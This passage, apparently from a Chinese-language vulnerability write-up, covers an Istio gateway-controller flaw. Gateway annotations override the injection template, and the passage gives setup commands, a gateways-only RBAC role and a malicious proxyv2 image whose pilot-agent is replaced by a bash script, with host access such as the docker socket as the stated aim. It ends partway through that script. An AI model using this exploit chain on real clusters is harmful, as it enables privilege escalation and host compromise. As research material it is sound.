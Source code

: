     
    
    strdict "inject.istio.io/templates" "gateway"

  
位于.Annotations前，所以这个点，我们可以通过控制gateway的注解来覆盖templates值，选择渲染的模版。  
  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    apiVersion: apps/v1kind: Deploymentmetadata:  annotations:    {{ toYamlMap .Annotations | nindent 4 }}  labels:    {{ toYamlMap .Labels      (strdict "gateway.istio.io/managed" "istio.io-gateway-controller")      | nindent 4}}  name: {{.Name}}  namespace: {{.Namespace}}  ownerReferences:  - apiVersion: gateway.networking.k8s.io/v1alpha2    kind: Gateway    name: {{.Name}}    uid: {{.UID}}spec:  selector:    matchLabels:      istio.io/gateway-name: {{.Name}}  template:    metadata:      annotations:        {{ toYamlMap          (strdict "inject.istio.io/templates" "gateway")          .Annotations          | nindent 8}}      labels:        {{ toYamlMap          (strdict "sidecar.istio.io/inject" "true")          (strdict "istio.io/gateway-name" .Name)          .Labels          | nindent 8}}

  
 **3**  
 **漏洞利用**  
掌握了漏洞利用链路上的细节，我们就可以理出整个思路。创建精心构造过注解的gateway资源及恶意的proxyv2镜像，“迷惑”控制器创建非预期的pod，完成对Host主机上的敏感文件进行访问，如docker
unix socket。  
 **漏洞环境:**  

  *   *   * 

    
    
     istio v1.12.2kubernetes v1.20.14kubernetes gateway-api v0.4.0

  
用下面的命令创建一个write-only的角色，并初始化 Istio：  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    curl -L https://istio.io/downloadIstio | ISTIO_VERSION=1.12.2 TARGET_ARCH=x86_64 sh -istioctl x precheckistioctl install --set profile=demo -ykubectl create namespace istio-ingresskubectl create -f - << EOFapiVersion: rbac.authorization.k8s.io/v1kind: ClusterRolemetadata:  name: gateways-only-createrules:- apiGroups: ["gateway.networking.k8s.io"]  resources: ["gateways"]  verbs: ["create"]---apiVersion: rbac.authorization.k8s.io/v1kind: ClusterRoleBindingmetadata:  name: test-gateways-only-createsubjects:- kind: User  name: test  apiGroup: rbac.authorization.k8s.ioroleRef:  kind: ClusterRole  name: gateways-only-create  apiGroup: rbac.authorization.k8s.ioEOF

  
在利用漏洞之前，我们需要先制作一个恶意的docker镜像。我这里直接选择了proxyv2镜像作为目标镜像，替换其中的/usr/local/bin/pilot-
agent为bash脚本，再tag一下，Push到本地的registry或者docker.io都可以。  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    docker run -it  --entrypoint /bin/sh istio/proxyv2:1.12.1cp /usr/local/bin/pilot-agent /usr/local/bin/pilot-agent-origcat << EOF > /usr/local/bin/pilot-agent#!/bin/bash  
    echo $1if [ $1 != "istio-iptables" ]then    touch /tmp/test/pwned    ls -lha /tmp/test/*    cat /tmp/test/*fi  
      
